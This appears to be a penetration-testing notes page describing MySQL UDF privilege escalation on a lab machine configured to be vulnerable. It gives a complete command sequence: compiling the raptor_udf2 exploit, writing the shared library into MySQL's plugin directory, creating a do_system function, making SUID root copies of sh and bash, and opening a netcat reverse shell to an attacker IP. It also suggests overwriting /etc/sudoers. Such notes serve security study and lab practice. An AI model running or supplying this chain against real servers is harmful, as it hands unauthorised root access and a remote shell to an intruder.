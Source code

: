 # MySQL UDF

## Preparing system for test

for testing purposes you can make your mysql service vulnerable manually

To configure this vulnerability on Kali to test run the following commands.

#### `chown -R root:root /var/lib/mysql` `nano /etc/mysql/mariadb.conf.d/50-server.cnf` `Change user=mysql to user=root and save the file` `service mysql restart`

## Find which user the mysql servie is running as

in some situations we have a mysql running as root which we can use for privs. first we have to determin the commands that we can use in mysql.mysql has a module called UDF(User-Defined Function) which lets us run commands as the current user which myssql is runnung as. so whit this in mind we might be able to run root commands from mysql.

first we have to see if mysql is running as root:

\
`ps aux | grep mysql`

![](../../../.gitbook/assets/udf1.png)

its running as root.login:

`mysql -u root`\
`use mysql; >>> mysql is the database`\
`select * from mysql.func; >>> search for udf`

![](../../../.gitbook/assets/udf2.png)

## if the mysql service already has the function we can skip exploit part:

now we use udf to copy /bin/sh to /tmp and make it executable for john to get a root prompt:

`select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh');`\
`OR`\
`select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');`

![](../../../.gitbook/assets/udf3.png)

exit and go to /tmp

run sh file:

![](../../../.gitbook/assets/udf4.png)

## if mysql doesnt have the function already we add it using the exploit:

{% embed url="https://www.exploit-db.com/download/1518.c" %}

{% file src="../../../.gitbook/assets/1518.c" %}

the instructions are in exploit itslef

compile on target machine

`gcc -g -c raptor_udf2.c >>> for 32 bit systems`\
`gcc -g -c raptor_udf2.c -fPIC >>> for 64 bit`\
`gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc`

This will prompt for the password.

mysql -u root -p >>> press enter without any password

`use mysql;`

now we will need to create a temporary table for us to work with. We need a place to load in the Shared Binary into MySQL.

`create table foo(line blob);`

Now that we have the table setup we will need to insert the contents into the table. We do this because the next step is to export it to a root only directory. Since it was moved over or compiled on the victims machine as a non root user this is the only way to do it.

change the file path

`insert into foo values(load_file('/path/to/the/file/raptor_udf2.so'));`

With the raw binary inside of the table we can select it and dump the contents onto the disk anywhere we like! Note that you can even push the contents of a new /etc/sudoers file and overwrite it!

For a UDF to work we need to find the location of the plugins directory. This is where we need the file to be stored. otherwise you will get an error refering to ‘raptor\_udf2.so’ cannot be found.

Look for the value of plugin\_dir:

`show variables like '%plugin%';`

Use the plugin\_dir as the dump file location:

`select * from foo into dumpfile "/usr/lib/mysql/plugin/raptor_udf2.so";`

If there are no errors you were able to sucessfully push the raw binary of raptor\_udf2.so into the plugins directory owned by root! Now we need to create the function to complete the privelege escalation.

`create function do_system returns integer soname 'raptor_udf2.so';`

Now that this is done we can confirm the functions is present in mysql.

`select * from mysql.func;`

If we see the name do\_system with the type function we are good to go. The only thing left is to actually run the code we want.

`select do_system('nc 192.168.1.24 4444 -e /bin/bash &');`

We now setup our listener and we have a root shell!
